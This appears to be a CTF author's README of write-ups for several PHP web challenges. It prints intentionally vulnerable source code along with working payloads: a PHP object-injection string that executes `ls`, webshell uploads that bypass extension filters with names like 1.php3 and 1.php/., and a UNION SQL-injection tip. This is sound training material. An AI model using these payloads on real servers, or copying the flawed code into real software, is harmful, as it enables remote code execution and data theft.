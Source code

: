 # TCTF v2 
TCTF v2 is the CTF practice platform for MasonCC, and I have put up some web challenge on it. It is pity that I cannot keep all challenges running on server. Therefore, I would give my writeup of web challenge here. Welcome to take source code of challenges if you are interested in anyone.  
*  [Cover Peasy](#cover-peasy)  
*  [PHP un-Siri ME](#php-un-siri-me)  
*  [Unicorn && Lion](#unicorn-and-lion)  
*  [Shorter shell](#shorter-shell)  
*  [Peasy shell not PHP](#peasy-shell-not-php)  
*  [Apache2 giv u new Shell](#apache2-giv-u-new-shell)  
*  [Destroy chllenge with ur shell?](#destroy-chllenge-with-ur-shell)  

## Cover Peasy
Level: :star:  
see source code in `./easypeasy.txt`  
```php
<meta charset="utf-8">
<?php

error_reporting(0);
if (empty($_GET['str'])) {
    echo "see source code in ./easypeasy.txt";
    die();
}else{
    $flag = trim(file_get_contents('xxxxxxxxxxx.php'));
    $url = "www.1pwnch.org";
    $str = $_GET['str'];
    $pwnch = "enjoyIt";
    @parse_str($str);
    if ($url[0] != 'QNKCDZO' && md5($url[0]) == md5('QNKCDZO')) {
        extract($_GET);
        if($pwnch == $flag){
            echo "masoncc{xxxxxxxxxxx}";
        }else{
            echo "Good! But it's not enough!";
        }
    }else{
        exit('Try angain :-)');
    }
}
?>
```

## PHP un Siri ME
Level: :star::star:  
The difficulty of this challenge is your truely understand of unserialization.  
Payload: `?str=O:5:"pwnch":1:{s:2:"hi";O:7:"pickle2":1:{s:6:"%00*%00hi2";s:10:"echo `ls`;";}}`

## Unicorn and Lion
Level: :star:  
This is a very classic challenge for Union-based mysql injection.  
I won't keep source code of file in this place.  
You need to find each answer of problem from the `faq.php`.  
What's worth paying attention to is that you need to separate each results of answer.  
Here is the trick `group_concat(column name separator 'x')`  
that `x` can help you separate each results.  
![union](https://github.com/shinmao/CTF-writeups/blob/master/tctf-masoncc-writeup/screenshot/union%20and%20lion.png)

## Shorter shell
Level: :star::star::star:  
[Enjoy my writeup on my blog](https://shinmao.github.io/2018/02/20/A-tiny-shell/)  
In fact, there is a classic solution to such kind of challenge: **Reverse shell**  
Thanks to @chris-issing provides his [payload](https://github.com/shinmao/CTF-writeups/blob/master/tctf-masoncc-writeup/shorter-shell-others/chriss-issing.rb) 

## Peasy shell not PHP
Level: :star:  
```php
show_source(__FILE__);

$content = $_POST['content'];
$filename = $_POST['filename'];
$filename = "backup/".$filename;

if(preg_match('/.+\.php$/i', $filename)){
    echo 'Hey! I have told you, bad boy!';
}else{
    $f = fopen($filename,'w');
    fwrite($f, $content);
    fclose($f);
}
```
Payload: `url/?content=<?php system('ls');?>&filename=1.php3`  
Associated knowledge: `.php4`,`php5`,`php7`,`pht`,`phtml` can also work.  

## Apache2 giv u new Shell
Level: :star:  
```php 
show_source(__FILE__); 

$sandbox = 'sb'.md5($_SERVER['REMOTE_ADDR']);
echo 'Here is your sandbox: '.$sandbox;

@mkdir($sandbox);
@chdir($sandbox);
@exec('touch i_no_you.txt');
 
$content = $_POST['content']; 
$filename = $_POST['filename']; 
 
if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
   die("1pwnch is angry!!");
}else{
    $f = fopen($filename, 'w');
    fwrite($f, $content);
    fclose($f);
}
```
Payload: `url/?content=<?php system('ls');?>&filename=1.php/.`  

## Destroy chllenge with ur shell
Level: :star::star::star:  
```php
// up.php
show_source(__FILE__);
function ppwaf($file){
    $hack = file_get_contents($file);
    if(stripos($hack,'eval') === false && stripos($hack,'assert') === false && stripos($hack,'echo') === false){
        echo "good! The content of your file is secure!"."<br />";
        return true;
    }else{
        echo "You have dangerous content!"."<br />";
        return false;
    }
}

function ppname($name){
    if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $name)){
           echo "Bad file extension";
        return false;
    }else{
            return true;
        echo "good! The filename of your file is secure!"."<br />";
    }
}

if($_FILES["file"]["error"]>0){
    echo "error code: ".$_FILES["file"]["error"]."<br />";
}else{
    echo "filename: ".$_FILES["file"]["name"]."<br />";
    echo "tmp name: ".$_FILES["file"]["tmp_name"]."<br />";
    if(ppwaf($_FILES["file"]["tmp_name"]) == true && ppname($_GET['name']) == true){
            move_uploaded_file($_FILES["file"]["tmp_name"],$_GET['name']);
    }else{
        echo "I am sorry because your dangerous file!"."<br />";
    }
}
```
Payload: [Enjoy my blog](https://shinmao.github.io/web/2018/04/13/The-Magic-from-0CTF-ezDoor/)  
![payload](https://github.com/shinmao/shinmao.github.io/blob/master/assets/uploads/2018-04-13/payload.png)  
More source code at [here](https://github.com/shinmao/CTF-writeups/tree/master/myChallenge/impossible_overShell)
